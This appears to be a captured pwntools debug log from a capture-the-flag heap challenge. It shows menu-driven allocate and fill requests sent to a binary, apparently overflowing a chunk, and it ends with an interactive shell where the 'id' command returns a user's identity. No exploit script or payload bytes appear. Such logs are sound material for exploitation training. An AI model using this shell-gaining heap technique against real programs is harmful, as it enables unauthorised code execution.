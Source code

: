 ``` Python LOG
    b'104\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 2\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'104\n'
[DEBUG] Received 0x2b bytes:
    b'Size: Allocate Index 3\n'
    b'1. Allocate\n'
    b'2. Fill\n'
[DEBUG] Received 0x21 bytes:
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Sent 0x3 bytes:
    b'27\n'
[DEBUG] Received 0x4b bytes:
    b'Index: Size: Content: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x2 bytes:
    b'8\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 5\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x2 bytes:
    b'5\n'
[DEBUG] Sent 0x3 bytes:
    b'40\n'
[DEBUG] Received 0x16 bytes:
    b'Index: Size: Content: '
[*] Switching to interactive mode
 Index: Size: Content: $ id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x84 bytes:
    b'uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)\n'
```